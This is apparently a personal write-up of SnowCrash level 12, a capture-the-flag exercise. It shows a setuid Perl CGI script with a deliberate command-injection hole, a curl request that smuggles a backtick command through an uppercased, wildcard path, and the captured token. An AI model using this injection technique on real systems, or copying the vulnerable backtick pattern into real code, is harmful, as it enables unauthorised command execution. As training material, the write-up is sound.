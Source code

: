 ## Level 12


## Clues


Another perl script
```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$
```

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));

```

We have to trick this script, by giving him parameter that is going to interpret our command.


## Solution


This one was really though.

The script is using regexes, and is doing a tupper to our input.


When we give him an ASCII caracter, it will be in Uppercase, meaning we can't give him any commands.

We have to trick this script using curl, in order to be sure that its the level13 user that is going to execute our commands.


So we can't give him any path or commands...

But we can use wildcards and special character.


Lets write a script that is going to give us our result in this path : ```/tmp/GETFLAG```

```
echo `getflag` > /tmp/flag
```

This is the script that is going to get executed.

Then in the curl request we are going to give to this script the follow :

```
/*/GETFLAG
```

We are going to the path / then use the wildcard to test every path from /.

So its going to end up by testing /tmp/GETFLAG.

```
curl localhost:4646?x=\`/*/GETFLAG\`
```

```
level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$
```

It looks simple, but it took me a lot of time and effort.


## What i learned

Perseverance

Wildcard tricks

Apache/nginx logs STDERR in a log a files